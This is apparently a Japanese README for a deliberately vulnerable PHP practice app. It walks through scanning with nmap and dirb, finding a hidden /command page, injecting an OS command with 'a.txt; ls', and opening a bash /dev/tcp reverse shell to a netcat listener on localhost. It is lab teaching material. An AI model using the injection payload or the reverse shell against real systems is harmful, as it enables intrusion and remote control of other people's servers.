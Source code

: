 # vulnable_sample
## use
### easy use way
```php -S localhost:8080```
### exploit
ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
```
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  
```
エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，よくあるrobots.txtからのディレクトリの発見や，表からは見えないディレクトリの発見を行う．そこから，ソースコードの情報を元に攻撃方法を推測しコマンド実行を行う(ファイルを読み込んでるのか他の方法OSコマンドからファイルを出力してるのか...).攻撃をより行いやすいようにリバースシェルの接続を行う．

